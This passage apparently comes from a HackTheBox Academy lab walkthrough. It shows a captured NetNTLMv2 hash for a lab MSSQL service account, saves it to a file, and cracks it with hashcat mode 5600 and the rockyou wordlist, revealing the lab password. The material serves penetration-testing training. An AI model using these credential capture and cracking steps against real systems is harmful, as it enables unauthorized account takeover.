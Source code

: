 ```
[*] Incoming connection (10.129.203.12,49676)
[*] AUTHENTICATE_MESSAGE (WIN-02\mssqlsvc,WIN-02)
[*] User WIN-02\mssqlsvc authenticated successfully
[*]mssqlsvc::WIN02:aaaaaaaaaaaaaaaa:da87f7aa577b48e8361cf1b021e6bfca:010100000000000000555ef6718cd801e1b423320a45d0570000000001001000760055004a005100610058005200550003001000760055004a00510061005800520055000200100069004700430077004f0055006b0077000400100069004700430077004f0055006b0077000700080000555ef6718cd80106000400020000000800300030000000000000000000000000300000f4316f662256a822989f5d2574efb5b4cbf92c2ce43cb82538c6b2b358a130650a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e0034000000000000000000
[*] Closing down connection (10.129.203.12,49676)
[*] Remaining connections []
```

Therefore, students need to save the NetNTLMv2 hash into a file:

Code: shell

```shell
echo "mssqlsvc::WIN-02:aaaaaaaaaaaaaaaa:da87f7aa577b48e8361cf1b021e6bfca:010100000000000000555ef6718cd801e1b423320a45d0570000000001001000760055004a005100610058005200550003001000760055004a00510061005800520055000200100069004700430077004f0055006b0077000400100069004700430077004f0055006b0077000700080000555ef6718cd80106000400020000000800300030000000000000000000000000300000f4316f662256a822989f5d2574efb5b4cbf92c2ce43cb82538c6b2b358a130650a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e0034000000000000000000" > hash.txt
```

```
┌─[us-academy-1]─[10.10.14.4]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ echo "mssqlsvc::WIN-02:aaaaaaaaaaaaaaaa:da87f7aa577b48e8361cf1b021e6bfca:010100000000000000555ef6718cd801e1b423320a45d0570000000001001000760055004a005100610058005200550003001000760055004a00510061005800520055000200100069004700430077004f0055006b0077000400100069004700430077004f0055006b0077000700080000555ef6718cd80106000400020000000800300030000000000000000000000000300000f4316f662256a822989f5d2574efb5b4cbf92c2ce43cb82538c6b2b358a130650a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e0034000000000000000000" > hash.txt
```

And at last, students need to crack the hash using `Hashcat` utilizing hashmode 5600, to find that the plaintext password of the `MSSQLSVC` user is `princess1`:

Code: shell

```shell
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

```
┌─[us-academy-1]─[10.10.14.4]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ hashcat -m 5600 -O hash.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...

<SNIP>

MSSQLSVC::WIN-02:aaaaaaaaaaaaaaaa:da87f7aa577b48e8361cf1b021e6bfca:010100000000000000555ef6718cd801e1b423320a45d0570000000001001000760055004a005100610058005200550003001000760055004a00510061005800520055000200100069004700430077004f0055006b0077000400100069004700430077004f0055006b0077000700080000555ef6718cd80106000400020000000800300030000000000000000000000000300000f4316f662256a822989f5d2574efb5b4cbf92c2ce43cb82538c6b2b358a130650a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e0034000000000000000000:princess1
```

